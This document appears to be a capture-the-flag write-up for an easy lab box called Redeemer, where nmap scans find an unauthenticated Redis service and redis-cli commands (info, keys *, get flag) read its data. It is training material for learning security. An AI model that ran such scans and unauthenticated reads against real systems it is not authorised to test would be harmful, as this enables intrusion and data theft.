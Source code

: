 # Box 
Name: Redeemer
ID:4
Difficulty: Easy

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`
  - `redis-cli`
  
## 🧠 Recon
Nmap Scan:
```bash
nmap -p- -sV 10.129.121.168 
nmap -p- -T4 10.129.121.168 (this one worked because I made the timing more aggressive)
```
## 🔍 Enumeration
Found an open port **6379/tcp**, running **redis** service.

## 💥 Exploitation
1. Installed redis-cli
2 Connected using `redis-cli` (no authentication needed):
  ```bash
  redis-cli -h 10.129.121.168
```
3. Ran basic commands:
info – server details
keys * – list all keys
get flag 

## 🔐 Privilege Escalation
Not required -redis ran as root

## 🧼 Cleanup & Lessons
-redis-cli session ended cleanly.
- **Key takeaways**: 
- Always check if a service runs as root, no authentication required.
- Misconfigs are an easy win.